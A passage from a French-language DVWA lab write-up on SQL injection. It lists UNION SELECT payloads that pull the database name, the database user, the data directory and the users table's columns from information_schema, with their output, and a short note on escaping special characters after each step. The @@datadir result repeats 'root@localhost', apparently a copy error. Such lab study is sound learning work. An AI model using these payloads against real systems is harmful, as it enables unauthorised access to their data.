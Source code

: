 ```sql
SELECT DATABASE();
```

et le résultat est :

```
ID: ' UNION SELECT DATABASE(), ''#
First name: dvwa
Surname:
```

Encore une fois, pour se protéger, utilisation d'une méthode permettant de
remplacer les caractères spéciaux.

### Comment récupérer l'utilisateur de la base de données ?

Idem avec la requête `SELECT USER();` et le résultat suivant :

```
ID: ' UNION SELECT USER(), ''#
First name: root@localhost
Surname:
```
Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

### Comment récupérer l'endroit où est stocké la base de données ?

Idem avec la requête `SELECT @@datadir;` et le résultat suivant :

```
ID: ' UNION SELECT @@datadir, ''#
First name: root@localhost
Surname:
```
Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

### Comment connaitre le schema de la base de données ?

```
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
```

Résultat :

```
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: user_id

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: first_name

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: last_name

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: user

```